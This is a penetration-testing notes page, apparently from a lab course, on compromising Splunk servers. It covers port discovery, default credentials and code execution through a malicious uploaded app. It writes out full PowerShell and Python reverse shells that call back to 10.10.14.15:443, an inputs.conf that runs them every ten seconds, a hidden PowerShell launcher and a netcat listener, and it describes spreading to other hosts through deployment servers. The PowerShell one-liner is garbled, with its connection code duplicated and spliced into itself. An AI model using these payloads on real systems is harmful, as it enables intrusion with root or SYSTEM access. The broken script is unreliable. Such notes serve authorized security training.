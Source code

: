 # Splunk

Typically used as a SIEM tool for security monitoring and sometimes business analytics. This is typically encounter on the internal portion of a pentest. The biggest focus of Splunk during an assessment would be weak or null authentication because admin access to Splunk gives us the ability to deploy custom applications that can be used to quickly compromise a Splunk server and possibly other hosts in the network depending on the way Splunk is set up.

> Splunk is typically running as ROOT or NT AUTHORITY/SYSTEM on the servers it is installed on, so RCE can be powerful.&#x20;

### Discovery/Footprinting&#x20;

Splunk runs by default on port 8000.

```shell-session
sudo nmap -sV 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 08:43 EDT
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  ssl/http      Splunkd httpd
8080/tcp open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

> when accessing the instance, splunk typically uses https.\
>

On older versions of Splunk, the default credentials are `admin:changeme`

### Splunk Enterprise Trial

The Splunk Enterprise trial becomes a free version after 60 days without requiring authentication. Its not uncommon to be installed as part of a POC or trial and forgotten about. fs

Once logged in to Splunk (or having accessed an instance of Splunk Free), we can browse data, run reports, create dashboards, install applications from the Splunkbase library, and install custom applications.

### Code Execution via built in functionality&#x20;

We can use the following package to install a malicious application on splunk to achieve code execution:&#x20;

[https://github.com/0xjpuff/reverse\_shell\_splunk](https://github.com/0xjpuff/reverse_shell_splunk)\
\
1\. Create a directory with following structure:&#x20;

```shell-session
splunk_shell/
├── bin
└── default

# Bin will contain our payload scripts, default will contain inputs.conf file
```

2. Create our Payloads&#x20;
   1.  PowerShell (Windows) run.ps1

       ```powershell-session
       #A simple and small reverse shell. Options and help removed to save space. 
       #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
       $client = New-Object System.Net.Sockets.TCPClient$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
       ```
   2.  Python (Linux) rev.py&#x20;

       ```python
       import sys,socket,os,pty

       ip="10.10.14.15"
       port="443"
       s=socket.socket()
       s.connect((ip,int(port)))
       [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
       pty.spawn('/bin/bash')
       ```
3.  Create inputs.conf, which defines which scripts are ran and the interval&#x20;

    ```shell-session
    [script://./bin/rev.py]
    disabled = 0  
    interval = 10  
    sourcetype = shell 

    [script://.\bin\run.bat]
    disabled = 0
    sourcetype = shell
    interval = 10
    ```
4.  Create run.bat&#x20;

    ```shell-session
    @ECHO OFF
    PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
    Exit
    ```
5.  Tar the package&#x20;

    ```shell-session
    tar -cvzf updater.tar.gz splunk_shell/
    ```
6.  start listener&#x20;

    ```shell-session
    sudo nc -lnvp 443
    ```
7. Upload App
   1.

       <figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

       <figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Lateral Movement&#x20;

If the splunk host is a deployment server, we can possibly achieve RCE on any other hosts with universal splunk forwarders installed on them. our package must  be placed in `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.



